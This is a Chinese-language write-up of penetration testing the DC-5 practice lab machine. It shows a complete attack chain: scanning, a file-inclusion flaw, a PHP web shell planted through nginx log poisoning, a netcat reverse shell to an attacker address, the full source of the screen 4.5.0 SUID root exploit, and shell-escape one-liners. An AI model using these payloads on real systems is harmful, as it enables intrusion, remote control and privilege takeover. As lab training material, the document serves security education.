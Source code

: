 # 信息收集
## 主机发现
>nmap -sn 192.168.189.0/24

![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200416135628517.png)
## 网站指纹
>whatweb 192.168.189.134

![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200416140055148.png)

## 端口扫描
>nmap -sV -O -T4 -p- -Pn -sT 192.168.189.134 --script vuln

![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200416135909832.png)
## 目录扫描
>dirb http://192.168.189.134 /usr/share/dirb/wordlists/common.txt

![》](【渗透项目】靶机DC-5渗透过程.assets/20200416141828505.png)
>dirbuster

![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200416142118789.png)
>gobuster dir -u http://192.168.189.134 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php

![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200416145934335.png)
```
/images (Status: 301)
/contact.php (Status: 200)
/index.php (Status: 200)
/faq.php (Status: 200)
/solutions.php (Status: 200)
/footer.php (Status: 200)
/css (Status: 301)
/about-us.php (Status: 200)
/thankyou.php (Status: 200)
```
通过对网站目录的扫描，发现除了在主页上通过点击访问的页面外，还有两个不在主页显示的页面，分别是`thankyou.php`和`footer.php`
![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200416151022220.png)
![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200416151049854.png)
通过观察发现每次访问footer.php页面，年份在变化。
通过对网站页面的访问，footer.php中显示的内容在页面的最先下端显示，但通过观察发现，Thankyou.php下方的标志与footer.php页面一样，通过访问年份发生变化。
为了进一步获取信息，需要对查看网页的html源码
![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200416152051622.png)
![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200416152409648.png)
推测在Thankyou.php中对footer.php进行了引用
在thankyou.php存在对本地文件的包含，尝试测试该页面是否存在文件包含漏洞
在URL中添加参数`?file=/etc/passwd`进行请求，成功包含出本地的passwd文件
![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200416153301176.png)
证实存在文件包含漏洞，现在需要写入来获得webshell
在已知存在包含漏洞的情况下，可以利用网站的日志文件来获得shell


# 漏洞利用
## 文件包含
用户在网站上的每一步操作都是会被写入log文件中的
通过前面的信息收集，找到了该web服务器使用的中间件及版本
是nginx/1.6.2
我们可以通过包含nginex容器的log文件来获得shell
网上找到的nginx默认文件路径
```
-prefix=/etc/nginx 
--sbin-path=/usr/sbin/nginx 
--modules-path=/usr/lib64/nginx/modules 
--conf-path=/etc/nginx/nginx.conf 
--error-log-path=/var/log/nginx/error.log
--http-log-path=/var/log/nginx/access.log 
--pid-path=/var/run/nginx.pid
--lock-path=/var/run/nginx.lock
```
通过日志发现之前，在contact.php中输入的信息被记录在access.log中

利用GET请求数据包在access.log中写入一个shell
```
<?php system($_GET['abc']);?>
```
![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200417090645215.png)
下来需要确认代码是否写入成功，访问如下url，并跟上传递的参数
>/thankyou.php?file=/var/log/nginx/access.log&abc=ls

通过测试，命令执行成功
![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200417090612708.png)
可以看到命令执行成功
接下来就是使用获得的命令执行权限来反弹网站用户的shell
前提还是在接收端开启监听
>nc -vnlp 8888

![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200417091412266.png)

>nc -e /bin/bash 192.168.189.128 8888 

![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200417092037738.png)
![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200417092155971.png)
能够被用来进行反弹shell的命令，非常多，感兴趣的自行搜索学习

# 提权操作
接下来就需要进行提权操作
首先查看主机上可用的工具
>whereis git php python wget gcc

![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200417092437913.png)
上传提权检查脚本

![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200417093154725.png)
给上传的脚本添加可执行权限后即可执行提权检查
>chmod u+x linuxprivchecker.py
>python linuxprivchecker.py

查找SUID文件
>find / -perm -u=s -type f 2>/dev/null

![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200417102059116.png)
可以利用screen-4.5.0来进行提权操作
![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200417102335935.png)
根据41154.sh的内容进行操作即可
第一步：先将41154.sh中的libhax.c内容拷出并编译
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

>gcc -fPIC -shared -ldl -o libhax.so libhax.c

第二步：将先将41154.sh中的rootshell.c内容拷出并编译

```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
>gcc rootshell.c -o rootshell

第三步：删去41154.sh中第一步和第二部的相关内容
```
#!/bin/bash

echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```
将三个文件上传，并执行shell文件就能提升到管理员权限
![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/2020041711313512.png)
用awk调用bash
>awk 'BEGIN {system("/bin/bash")}'

![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200417114525742.png)
合影
![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200417114625280.png)

***

当执行shell文件时报错`bad interpreter: No such file or directory
`
![在这里插入图片描述](【渗透项目】靶机DC-5渗透过程.assets/20200417113337941.png)
产生这种情况的原因是shell文件是在windows平台上写的，导致linux平台无法找到。

解决方法一：参考dalao的操作即可解决
```
解决方法：
用vi打开该sh文件，使用 :set ff=unix 保存，即可解决该问题

参考文章：
https://blog.csdn.net/ooooooobh/article/details/82766547
```
解决方法二：手动输入以下命令
```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
cd /tmp
./rootshell
```

***
# 总结
```
[+] Related Shell Escape Sequences...
    vi-->       :!bash
    vi-->       :set shell=/bin/bash:shell
    awk-->      awk 'BEGIN {system("/bin/bash")}'
    find-->     find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
    perl-->     perl -e 'exec "/bin/bash";'
```

```
提权检查脚本下载地址：

https://www.securitysift.com/download/linuxprivchecker.py
git clone https://github.com/rebootuser/LinEnum.git
```
